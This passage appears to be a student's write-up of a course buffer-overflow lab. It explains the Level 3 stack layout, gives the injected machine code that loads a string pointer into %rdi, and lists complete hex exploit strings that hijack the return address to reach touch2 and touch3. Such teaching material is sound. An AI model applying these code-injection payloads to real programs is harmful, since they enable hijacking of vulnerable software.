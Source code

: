 ```
48 c7 c7 fa 97 b9 59 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
ec 17 40 00 00 00 00 00
```

-----------------------------------------------
# Level 3:

Level 3 is a bit tricky since we need to redirect `getbuf()` to return to `touch3()` and pass a pointer to string as input argument. The string is a ascii representation of cookie string `59b997fa`. This means we need to find somewhere to store this string and make sure it won't be overwrite by the following procedural calls. We know that `touch3()` use `hexmatch()` and `strncmp()` to check whether the string we passed match the cookie. By inspecting the disasembled code of `hexmatch()` and `strncmp`, we see 4 pushq instructions, which will overwrite 32 bytes on the stack. We know that there are only 32 bytes between the return address and our injected code (shown in the following graph of stack frame). Hence this region cannot be used to place the ascii representation of cookie. My original method is to inject additional instructions to `movl` the string to the position below our injected code, which is impossible to write directly using the exploit string. This method is powerful since we can put anywhere as long as the stack is executable. But it complicates things. For this problem, since the parent stack is safe, we can just overflow the stack and put the ascii string on top of the return address of `touch2`. The code we need to inject is

```
48 c7 c7 b0 dc 61 55    /* mov    $0x5561dcb0,%rdi */
c3                      /* retq */
```

The layout of the stack should be

```
0x5561dcb8 0x0000000000000000 /* end of string */
0x5561dcb0 0x6166373939623935 /* ascii representation of cookie */
0x5561dca8 0x00000000004018fa /* return address of touch3 */
0x5561dca0 0x000000005561dc78 /* address of injected code */
0x5561dc98 0x0000000000000000 /* ........padding......... */
0x5561dc90 0x0000000000000000 /* ........padding......... */
0x5561dc88 0x0000000000000000 /* ........padding......... */
0x5561dc80 0x0000000000000000 /* ........padding..........*/
0x5561dc78 0xc35561dcb0c7c748 /* ........code............ */
```

Therefore the exploit string should be

```
48 c7 c7 b0 dc 61 55 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
